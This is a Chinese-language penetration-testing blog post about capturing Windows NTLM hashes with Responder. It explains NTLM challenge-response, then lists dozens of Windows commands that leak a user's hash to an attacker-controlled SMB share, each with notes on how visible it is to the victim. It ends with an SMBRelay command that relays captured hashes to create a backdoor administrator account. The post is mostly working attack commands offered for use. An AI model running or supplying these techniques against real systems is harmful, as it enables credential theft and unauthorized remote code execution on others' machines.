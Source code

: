+++
title = "Responder与NTML hash"
topics = ["Pentest"]
tags = ["intranet"]
description = "获取windows的hash"
date = "2018-09-10T09:48:10+08:00"
draft = false
+++

### 0x00 一些概念
* Windows认证协议  
分为：基于NTML的认证和基于kerberos的认证

* 什么是NTLM Hash？  
早期IBM设计的LM Hash算法存在弱点，微软在保持向后兼容性的同时提出了自己的挑战响应机制，即NTLM Hash

* 什么是Challenge-Response挑战/响应验证机制？  
    * Client输入username、password、domain，然后将密码hash后存在本地，并将username发送到Server
    * DC生成一个16字节的随机数，即Challenge(挑战码)，然后传回Client
    * Client收到Challenge后将密码hash和challenge混合hash，混合后的hash称为response，然后将challenge、response和username发送给Server
    * Server将收到的3个值转发给DC，然后DC根据传过来的username到域控的账号数据库ntds.list找到对应的密码hash，将hash和Client传过来的challenge混合hash，将这个混合hash与Client传过来的response进行对比验证

* 关于Responder  
由Laurent Gaffie撰写的 Responder 是迄今为止，在每个渗透测试人员用于窃取不同形式的证书（包括Net-NTLM哈希）的最受欢迎的工具。它通过设置几个模拟的恶意守护进程（如SQL服务器，FTP，HTTP和SMB服务器等）来直接提示凭据或模拟质询 – 响应验证过程并捕获客户端发送的必要哈希。Responder也有能力攻击LLMNR，NBT-NS和mDNS等协议。

* 什么是NTLM中继攻击？  
攻击者可以直接通过LM Hash和NTLM Hash访问远程主机或服务，而不用提供明文密码。

### 0x01 软件环境
* 可以从[https://github.com/SpiderLabs/Responder](https://github.com/SpiderLabs/Responder?_blank)下载Responder
* 目标机：Win7（10.11.11.20）
* 本机：Ubuntu14.04（10.11.11.11）
* 本机执行：$ sudo python Responder.py -I en0 -rdwv

### 0x02 通过SMB服务获取NTLM哈希   
对于SMB协议，客户端在连接服务端时，默认先使用本机的用户名和密码hash尝试登录，所以可以模拟SMB服务器从而截获hash，执行如下命令都可以得到hash

```bash
net.exe use \\host\share
attrib.exe \\host\share
bcdboot.exe \\host\share
bdeunlock.exe \\host\share
cacls.exe \\host\share
certreq.exe \\host\share #(noisy, pops an error dialog)
certutil.exe \\host\share
cipher.exe \\host\share
ClipUp.exe -l \\host\share
cmdl32.exe \\host\share
cmstp.exe /s \\host\share
colorcpl.exe \\host\share #(noisy, pops an error dialog)
comp.exe /N=0 \\host\share \\host\share
compact.exe \\host\share
control.exe \\host\share
convertvhd.exe -source \\host\share -destination \\host\share
Defrag.exe \\host\share
DeployUtil.exe /install \\host\share
DevToolsLauncher.exe GetFileListing \\host\share #(this one's cool. will return a file listing (json-formatted) from remote SMB share...)
diskperf.exe \\host\share
dispdiag.exe -out \\host\share
doskey.exe /MACROFILE=\\host\share
esentutl.exe /k \\host\share
expand.exe \\host\share
extrac32.exe \\host\share
FileHistory.exe \\host\share #(noisy, pops a gui)
findstr.exe * \\host\share
fontview.exe \\host\share #(noisy, pops an error dialog)
fvenotify.exe \\host\share #(noisy, pops an access denied error)
FXSCOVER.exe \\host\share #(noisy, pops GUI)
hwrcomp.exe -check \\host\share
hwrreg.exe \\host\share
icacls.exe \\host\share
LaunchWinApp.exe \\host\share #(noisy, will pop an explorer window with the  contents of your SMB share.)
licensingdiag.exe -cab \\host\share
lodctr.exe \\host\share
lpksetup.exe /p \\host\share /s
makecab.exe \\host\share
MdmDiagnosticsTool.exe -out \\host\share #(sends hash, and as a *bonus!* writes an MDMDiagReport.html to the attacker share with full CSP configuration.)
mshta.exe \\host\share #(noisy, pops an HTA window)
msiexec.exe /update \\host\share /quiet
msinfo32.exe \\host\share #(noisy, pops a "cannot open" dialog)
mspaint.exe \\host\share #(noisy, invalid path to png error)
mspaint.exe \\host\share\share.png #(will capture hash, and display the remote PNG file to the user)
msra.exe /openfile \\host\share #(noisy, error)
mstsc.exe \\host\share #(noisy, error)
netcfg.exe -l \\host\share -c p -i foo
```
![90](/img/post/20180911-124855.png)

### 0x03 通过文件包含获取NTLM哈希
![90](/img/post/20180911-132027.png)

### 0x04 通过XSS获取NTLM哈希
![90](/img/post/20180911-163241.png)



### 0x04 利用SMB Relay模块进行中继攻击从而RCE
这里就用到了NTLM中继攻击，相当于是中间人攻击，假如说有A和B两台主机，攻击者用将获取高权限的主机B的hash，将hash转发给低权限主机A并执行命令

#./SMBRelay.py -t 192.168.3.251 -c "net user vuln pass /ADD && net localgroup administrators vuln /add" -t 192.168.3.5 -u Administrator




<br>
#### Reference(侵删)：
* [https://apt404.github.io/2016/08/11/ntlm-kerberos](https://apt404.github.io/2016/08/11/ntlm-kerberos?_blank)
* [http://www.4hou.com/system/9383.html](http://www.4hou.com/system/9383.html?_blank)
* [https://3gstudent.github.io/Windows下的密码NTLM-hash和Net-NTLM-hash介绍](https://3gstudent.github.io/Windows下的密码hash-NTLM-hash和Net-NTLM-hash介绍/?_blank)
* [https://gist.github.com/anonymous/70f792d50078f0ee795d39d0aa0da46e](https://gist.github.com/anonymous/70f792d50078f0ee795d39d0aa0da46e?_blank)
* [https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes](https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes?_blank)
* [https://www.phillips321.co.uk/2016/07/09/hashcat-on-os-x-getting-it-going](https://www.phillips321.co.uk/2016/07/09/hashcat-on-os-x-getting-it-going/?_blank)
* [https://medium.com/@canavaroxum/xxe-on-windows-system-then-what-76d571d66745](https://medium.com/@canavaroxum/xxe-on-windows-system-then-what-76d571d66745?_blank)
